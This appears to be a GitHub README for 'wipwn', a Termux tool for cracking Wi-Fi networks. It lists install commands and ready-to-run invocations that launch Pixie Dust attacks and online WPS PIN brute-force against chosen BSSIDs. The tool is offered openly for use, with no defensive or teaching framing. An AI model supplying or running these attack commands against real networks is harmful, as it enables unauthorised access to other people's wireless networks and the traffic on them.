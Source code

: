 # wipwn
Hack wifi using termux (rooted)

## <a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/ShTasrif/wipwn
pip install requests
cd wipwn
chmod +x wipwn.py
```
### Single cmd Setup
```bash
curl https://raw.githubusercontent.com/ShTasrif/wipwn/main/wipwn --output /data/data/com.termux/files/usr/bin/wipwn
chmod +x /data/data/com.termux/files/usr/bin/wipwn
```
#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
#### Modify History : 
rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum) => SH TASRIF (CYBER SH)

